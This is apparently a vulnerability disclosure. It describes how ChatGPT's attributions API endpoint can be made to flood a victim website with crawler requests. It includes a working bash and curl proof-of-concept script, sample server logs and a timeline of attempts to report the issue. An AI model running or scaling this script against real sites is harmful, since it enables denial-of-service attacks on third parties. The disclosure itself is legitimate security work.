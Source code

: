 # OpenAI: ChatGPT Crawler Vulnerability
## Unauthenticated Reflective Distributed Denial of Service (DDoS)

**Severity:** [**High** - 8.6 CVSS score](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H/E:H/RL:U/RC:C/CR:L/IR:L/AR:H/MAV:N/MAC:L/MPR:N/MUI:N/MS:C/MC:N/MI:N/MA:H](https://chandanbn.github.io/cvss/#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H
) _because it is network-based, low complexity, no privileges required, no user interaction required, changed scope, no impact on confidentality or integrity but high impact on availability._

**ChatGPT crawler can be triggered to DDoS a victim website via HTTP request to unrelated ChatGPT API.** This defect in OpenAI software will spawn a DDoS attack on unsuspecting victim website, utilizing multiple Microsoft Azure IP address ranges on which ChatGPT crawler is running.

### Details

ChatGPT API exhibits a severe quality defect when handling HTTP POST requests to `https://chatgpt.com/backend-api/attributions`. 
The API expects a list of hyperlinks in parameter `urls`.
It is commonly known that hyperlinks to the same website can be written in many different ways. 
Due to bad programming practices, OpenAI does not check if a hyperlink to the same resource appears multiple times in the list. 
OpenAI also does not enforce a limit on the maximum number of hyperlinks stored in the `urls` parameter, thereby enabling the transmission of many thousands of hyperlinks within a single HTTP request.

Immediately after a well-formed HTTP POST request is received by OpenAI's `https://chatgpt.com/backend-api/attributions` API endpoint, OpenAI will initiate one HTTP request for each hyperlink contained in the `urls` parameter from the OpenAI servers located in the Microsoft Azure cloud.
At this point, a victim website will experience a high number of parallel connection attempts and HTTP requests from OpenAI's servers. Even though OpenAI is aware that they are sending a large number of requests to the same website at the same point in time, they don't make any attempt to limit the number of connections to the same website or even prevent the issuance of duplicate requests to the same resource.

Depending on the number of hyperlinks transmitted to OpenAI via the `urls` parameter, the large number of connections from OpenAI's servers might overwhelm the victim website.

This software defect provides an significant amplification factor for potential DDoS attacks. OpenAI exhibits a lack quality control processes in their software engineering and should remediate this defect as soon as possible.

### Proof of concept:

This proof of concept code highlights the defects of the OpenAI's API by initiating the sending 50 HTTP requests from OpenAI servers to `my-website.localhost`.

```bash
#!/bin/bash

echo {1..50} | tr ' ' '\n' | (
  while read -r i; 
    do echo "https://my-website.localhost:$RANDOM/$i-$RANDOM.txt"; 
  done
) | jq -R -s -j -c '{ "urls": split("\n")[:-1] }' \
| curl -v --http1.1 \
  -H 'user-agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/535.32 (KHTML, like Gecko) Chrome/133.0.0.1 Safari/535.32' \
  -H "content-type: application/jason" \
  -H 'origin: https://www.chatgpt.com' \
  --data-binary @- -X POST 'https:///chatgpt.com/backend-api/attributions'
```

The log files on webserver `my-website.localhost` will show many simultaneous connection attempts by `ChatGPT Crawler` happening at the same time:

```
2025-01-10 40.84.221.211 "GET /9185 HTTP/2.0" "Mozilla/5.0 AppleWebKit/537.36 (KHTML, like Gecko); compatible; ChatGPT-User/1.0; +https://openai.com/bot"
2025-01-10 40.84.221.210 "GET /1190 HTTP/2.0" "Mozilla/5.0 AppleWebKit/537.36 (KHTML, like Gecko); compatible; ChatGPT-User/1.0; +https://openai.com/bot"
2025-01-10 40.84.221.208 "GET /9185 HTTP/2.0" "Mozilla/5.0 AppleWebKit/537.36 (KHTML, like Gecko); compatible; ChatGPT-User/1.0; +https://openai.com/bot"
2025-01-10 40.84.221.208 "GET /1190 HTTP/2.0" "Mozilla/5.0 AppleWebKit/537.36 (KHTML, like Gecko); compatible; ChatGPT-User/1.0; +https://openai.com/bot"
```


### Disclosure

This software defect was discovered in January 2025 and responsibly disclosed to both OpenAI as owner of the defective software and Microsoft as the owner of the servers which spawn the massive number of potentially malicious web requests. 

Unfortunately it was not possible to obtain a reaction from either party in due time, even though many attempts to ensure a mitigation of this software defect were made, including:
- contacting OpenAI security team via report on their BugCrowd vulnerability reporting platform (no response from OpenAI)
- contacting OpenAI security team via e-mail to `disclosure@openai.com` as described in the `.well-known/security.txt` file on their web server (message "mailbox is not used any more", no response from OpenAI)
- contacting OpenAI employees via reports and security advisories posted to their github repositories (no response from OpenAI)
- contacting OpenAI data privacy officer via email to `privacy@openai.com` and `dsar@openai.com` (email response written by AI pointing to FAQ website)
- contacting OpenAI support staff via email to `support@openai.com` (email response written by AI pointing to FAQ website)
- contacting Microsoft security team via e-mail to `secure@microsoft.com`, `abuse@microsoft.com`, and many more (no response from Microsoft)
- contacting Microsoft security team via forms filled out on `cert.microsoft.com` (email response written by AI: "case closed")
- contacting Microsoft Azure network operations team via e-mail to the contacts provided in WHOIS records (no response from Microsoft)
- contacting CloudFlare security team via report on HackerOne, as CloudFlare provides the gateway server to `https://chatgpt.com` (HackerOne staff closes report as "informative", refuses to forward information to CloudFlare)

As of Friday, 10 Jan 2025, after various reports over legal communication channels, this software defect is neither resolved by OpenAI/Microsoft nor did they acknowledge its existence.

